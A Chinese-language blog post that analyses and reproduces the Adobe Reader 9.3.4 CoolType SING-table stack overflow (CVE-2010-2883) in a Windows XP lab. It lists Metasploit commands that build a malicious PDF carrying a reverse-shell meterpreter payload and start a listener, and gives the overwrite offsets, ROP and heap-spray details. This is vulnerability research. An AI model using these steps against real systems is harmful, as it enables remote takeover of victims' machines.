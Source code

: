 ```yaml
---
layout:         post
title:          CVE-2010-2883分析 & 复现
author:         wooy0ung
tags:           cve
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Adobe Reader 9.3.4  
>注意: 在Win7 x64下从Reader打开msf.pdf会引起异常而退出。  
>说明: 这篇文算是《漏洞战争》上的补充吧, 有些细节作者没有讲明。
<!-- more -->


### 0x00 前期准备

安装 Adobe Reader 9 & PdfStreamDumper, 将CoolType.dll拖到IDA分析, 定位到漏洞点

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x00.png)

第一处脆弱点, strcat没对字符串长度进行检查, 导致栈溢出

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x01.png)

第二处脆弱点在0x0808B308, call [eax]导致可以构造任意call, 控制eip的指向


### 0x01 Dump TTF

生成恶意pdf

```
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > run
```

导入pdf, Search_For->TTF Fonts, 选中TTF数据右键->Save Decompressed Stream

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x02.png)

TableEntry结构

```
typedef struct_SING
{
        char    tag[4];
        ULONG   checkSum;
        ULONG   offset;
        ULONG   length;
} TableEntry;
```

Dump数据0x0EC处的SING字段标记SING表的表头

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x03.png)

偏移表头0x00C处表示SING表数据相对文件的偏移(0x000->0x11C)

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x04.png)

相对于SING表数据开始再偏移0x010(uniqueName)开始复制到栈上


### 0x02 调试

定位到strcat, 查看payload入栈的首地址

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x05.png)

此处数据与dump出来的一致, 确定payload在栈首地址0x0012E4D8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x06.png)

注意这几处调用0x0803DEAF->0x08016C56->0x0801BB41->0x0808B308, 定位到call [eax]

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x07.png)

这时调用的是栈上0x0012E6D0存的一个地址, 0x0012E6D0-0x0012E4D8=0x1F8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x08.png)

将偏移payload的0x1F8~0x1FC共4bytes修改成目的地址(此处为0x4A80CB38), 即可控制EIP跳转, 然后构造ROP

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x09.png)

偏移payload的0x008~0x00C修改成ROP指令地址, 0x00C~0x00F修改成0x0C0C0C0C

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0a.png)

通过HeapSpray将shellcode弹到栈上

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0b.png)

构造ROP, 依次调用CreateFileA->CreateFileMappingA->MapViewOfFile->memcpy将栈上的shellcode复制到有r-w-x权限的内存段


### 0x03 exploit

打开msf监听, F9直接运行

```
msf > use /exploit/mutil/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > exploit -j
```

后门已经反弹回来

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0c.png)

由于icucnv36.dll没有开启ASLR, 以上构造的ROP指令能绕过DEP、ASLR